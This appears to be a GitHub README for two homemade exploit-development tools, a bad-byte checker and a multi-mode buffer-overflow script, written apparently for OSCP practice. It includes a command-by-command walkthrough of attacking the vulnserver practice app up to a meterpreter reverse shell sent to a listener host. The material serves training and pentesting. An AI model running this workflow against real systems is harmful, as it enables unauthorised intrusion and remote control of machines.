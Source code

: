 # OffensiveTools
Some offensive tools that I am playing around with

----- BadByteCheck.py -----

Furthering the process of automating exploit development, I realize that you can probably do the same thing with tools such as Mona.py, but I enjoy writing my own tools and this is one that I find less annoying to deploy. Once I've sent a buffer with all byte values 0-255, I dump the memory where those values begin from the debugger, and then run this tool against the dump file. Any byte values that I already know are most likely bad are pre-configured within the tool, and it's easy to add more. It skips the "bad" bytes in order when it's checking, and looks for any byte mismatches between the internally generated "allbytes" (0-255) range and the values that were actually dumped from the debugger, reporting any mismatches that can be verified with hexdump. Enjoy!

----- ExploitShadow.py -----

I was trying to save some time on my OSCP exam and decided to build most of the exploit dev stages into one single python script where you can choose the mode based on where you are in the process. The only other thing you might need to configure that was not in the instructions is the way the "maliciousbuffer" variables get crafted within each mode, based on the application you're attacking; I'll leave that for you to decide, because it's ridiculously easy :)

The idea is you should have your msfconsole up and exploit/multi/handler set to use whatever payload you configured in ExploitShadow, then to get your shell you will use mode 4 like this:

./exploitshadow.py 4 2006 0x11223344 10.0.0.1 443 10.0.0.10 9999

In the above example, the argument "4" is the mode I am using to send the final payload to get a meterpreter session. I initially crashed the program with mode 1, then found that 2006 is the number of bytes offset to the EIP overwrite (found via modes 2 and 5), then checked for bad characters with mode 3 (00, 0a, 0d are there by default), then send the final payload with mode 4. The 0x11223344 is the theoretical memory location of a "jmp esp" command, which would hit the second nopsled directly after the EIP overwrite and continue onto the shellcode. The 10.0.0.1 and 443 are the LHOST/LPORT information fed into msfvenom. The 10.0.0.10 and 9999 are the IP address of the remote server and port we are attacking.

Honestly, the cherry on top in this is the fact that it gives you a date/time stamp of when the payload is sent at the very end, because we are pentesters and the report is what matters to the client, right???

The complete process for attacking vulnserver with this tool looked more like this:

# I sent a buffer of "TRUN ." + 3000 A's, resulting in a crash...
./exploitshadow.py 1 3000 10.0.0.13 9999
# Since that crashed it, I had the tool generate a pattern of 3000 characters and sent that next...
./exploitshadow.py 2 3000 10.0.0.13 9999
# At this point, the EIP register had the hex values 396F4338 inside it, so now I just need to find that offset next...
./exploitshadow.py 5 3000 396F4338
# Now I know that the offset is 2006, because that's what mode 5 gives me as output, so now I sent a buffer with all byte values 0-255...
./exploitshadow.py 3 2006 10.0.0.13 9999
# Keep doing that and using badbytecheck.py to eliminate bad bytes/chars. When you have them all eliminated, and you find a proper jump address, send payload...
./exploitshadow.py 4 2006 0x11223344 10.0.0.1 443 10.0.0.13 9999
